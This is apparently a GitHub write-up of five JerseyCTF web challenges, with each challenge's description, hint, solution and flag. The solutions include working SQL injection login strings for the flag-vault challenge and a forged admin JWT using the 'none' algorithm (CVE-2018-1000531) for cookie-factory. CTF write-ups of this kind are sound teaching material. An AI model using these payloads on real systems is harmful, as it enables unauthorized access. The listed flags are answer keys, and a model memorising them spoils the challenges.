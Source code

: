 # web

- [x] [apache-logs (100)](#apache-logs)
- [x] [seigwards-secrets (100)](#seigwards-secrets)
- [x] [heres-my-password(250)](#heres-my-password)
- [x] [flag-vault (300)](#flag-vault)
- [x] [cookie-factory (400)](#cookie-factory)

## apache-logs

### *Description*

- An apache log file that contains recent traffic was pulled from a web server. There is suspicion that an external host was able to access a sensitive file accidentally placed in one of the company website's directories. Someone's getting fired...
- Identify the source IP address that was able to access the file by using the flag format: jctf{IP address}

<details>
    <summary>View Hint</summary>
	Which directory types should sensitive files not be placed in?
</details>
[webtraffic.log](https://www.jerseyctf.site/files/3a0428612620ef7b190032655f097b00/webtraffic.log?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OH0.YlYjVw.k0472hBVgZ8pNS9aLHisdMszles)


### *Writeup*

<kbd>CTRL+F</kbd> for 200 (successful HTTP GETs), the one indicating bank records represents confidential data and is what we are searching for.

Flag: `jctf{76.190.52.148}`

## seigwards-secrets

### *Description*

- Seigward has been storing his secrets on his website [https://jerseyctf.co](https://jerseyctf.co/) for decades. Hasn't failed him yet.

<details>
    <summary>View Hint</summary>
	Where can you find a website's code?
</details>

### *Writeup*

Notice that the [login.js](https://jerseyctf.co/login.js) file checks if the password when converted from ascii to base64 (`btoa`) is equal to `amN0ZnsxTV9zMF8xTV81b19EeW40TWl0M18wOTI0Nzh9`. Use a base64 decoder.

Flag: `jctf{1M_s0_1M_5o_Dyn4Mit3_092478}`

## heres-my-password

### *Description*

- Here's the deal - we have a list of 500 users (males, females, and pets) and one password. Log-in with the proper credentials for the flag.
- The password is **lightswitchon_and_offLOL26** and the website is [www.jerseyctf.online](http://www.jerseyctf.online/).

<details>
    <summary>View Hint</summary>
	This is not intended to require manual brute force. What are some other types of brute force methods?
</details>
[users.txt](https://www.jerseyctf.site/files/b75ea9a239df8ec1408edc31d05932b3/users.txt?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OX0.YlYlAg.llQS13U44BZu_MnEALyBwcMWvUM)


### *Writeup*

The username changes every minute.

Flag: `jctf{c0NGR@T2_y0U_p@22wORd_SPR@y3D!}`

## flag-vault

### *Description*

- I'm very organized. I even keep all of my flags neatly organized in a database! But, these are my flags! You don't have access to them... or do you?
- Do not brute force this challenge.

<span style="color: #e83e8c;">Start here: jerseyctf-flag-vault.chals.io</span>

<details>
    <summary>View Hint</summary>
	<ul>
        <li>What is the most common type of database?</li>
        <li>What is the flag format? How does that help you?</li>
    </ul>
</details>

### *Writeup*

Login initially with the username `admin` and password `' OR 1=1--` Then give the SQL query `' OR FLAG LIKE 'jctf{%' --` which will search for all entries that match the jctf beginning characters.

![img](https://lh6.googleusercontent.com/ja4PP1_ChvlZ_ZBTZzZRPJfNMkGjQaUdq0HuB3v4DM79-Rx3N8mNMFIvV7FadYpISUnfuEu7Eg8GZ-6NCsGRtUWW2b_Wb4dQzpPjBaGwQY4LLJXTX8nW9rnw9MSBtKfrXxFQstJI)

Flag: `jctf{ALMOST_LIKE_A_NEEDLE_IN_A_HAYSTACK}`

## cookie-factory

### *Description*

Granny's Cookie Factory

- Here at Granny's Old-Fashioned Home-Baked Cookie Factory, we pride ourselves on our cookies AND security being the best in the business.

<span style="color: #e83e8c;">Start here: https://jerseyctf-cookie-factory.chals.io/</span>


### *Writeup*

CVE-2018-1000531 vulnerability.

Username as “a” and password as “b” generates this JWT token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImEifQ.I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8`, which is in base64

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9` → `{"typ":"JWT","alg":"HS256"}`

`eyJ1c2VybmFtZSI6ImEifQ` → `{"username":"a"}`

`I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8` → some random bytes

We want to generate a new custom token with a none algorithm.

`{"typ":"JWT","alg":"none"}` → `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0`

`{"username":"admin"}` → `eyJ1c2VybmFtZSI6ImFkbWluIn0`

We can leave the password as blank so our token ends with a `.`

Payload: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.`

![img](https://lh6.googleusercontent.com/ViZ8ru4mHheTDwGxymv74V5D00ieb_qxKYeYDKFZe3Rjpsss75UIC8DPp9AmmZDZW7J_DDAySBEXagayMfNhzVDKpWKfvPUECFfkIakzjXjGPzu0XH7XhIyECOM76AOhgBHZ9BBI)

Flag: `jctf{GEEZ_WHAT_A_TOUGH_COOKIE}`